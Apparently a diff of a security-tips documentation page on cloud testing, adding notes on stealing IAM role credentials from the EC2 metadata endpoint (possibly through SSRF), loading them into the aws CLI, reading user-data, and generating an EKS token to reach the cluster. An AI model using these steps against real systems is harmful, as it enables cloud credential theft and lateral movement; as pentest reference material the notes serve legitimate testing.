

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/cloud.md, in a window 1280 px wide and 900 px high, scrolled down 673 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add EC2 endpoint details and commands on k8s

````diff
--- a/docs/cloud.md
+++ b/docs/cloud.md
@@ -43,18 +43,70 @@ dig +nocmd flaws.cloud any +multiline +noall +answer
 aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
 ```
 
-### SSRF on AWS to get credentials
+### Generate EKS token
 
-On AWS there is a metadata server that can be accessed through the REST API
-located at: `http://169.254.169.254`.
+If your instance is a Kubernetes node, then you can generate an EKS token to
+connect to the Kubernetes API with `kubectl`
+
+```bash
+aws eks update-kubeconfig --region {AWS_REGION} --profile {ROLE_NAME} --name {CLUSTER_NAME} --kubeconfig {KUBE_CONFIG_PATH}
+kubectl get pods --all-namespaces --kubeconfig {KUBE_CONFIG_PATH}
+```
+
+You may find the parameters value (`region` and `name`) on the metadata API.
+The `kubectl`commands are details on the [Kubernetes page](/kubernetes/#useful-kubectl-commands).
+
+
+### Extract secrets from metadata endpoint
+
+On an EC2 instance, you can requests metadata endpoint to collects secrets. This
+endpoint might be accessible while exploiting a `SSRF` vulnerability.
+
+
+#### Get EC2 instance roles
+
 Sending a GET requests to the following endpoint will dump a list of roles that
 are attaches to the current EC2 instance.
 
-```
+```url
 http://169.254.169.254/latest/meta-data/iam/security-credentials/
 http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
 ```
 
+```json
+{
+  "Code" : "Success",
+  "LastUpdated" : "2021-06-01T15:43:52Z",
+  "Type" : "AWS-HMAC",
+  "AccessKeyId" : "ASIA................",
+  "SecretAccessKey" : "........................................",
+  "Token" : "...",
+  "Expiration" : "2021-06-01T21:46:32Z"
+}
+```
+
+Then you can add this token to `aws` CLI tool:
+
+```
+[role_name]
+aws_access_key_id = ASIA................
+aws_secret_access_key = ........................................
+aws_session_token = ...
+```
+
+#### Get EC2 instance launching script
+
+The following endpoint list the script executed when you start a new instance:
+
+```url
+http://169.254.169.254/user-data
+```
+
+On an instance used as a EKS node the script can launch `bootstrap.sh`. Use the
+same paramters to generate an [EKS token](/cloud/#generate-eks-token)
+
+
+
 ### Resources on AWS
 
 - [flaws.cloud](http://flaws.cloud/)
````
Also changed, not shown: docs/kubernetes.md (+22 -2 lines).
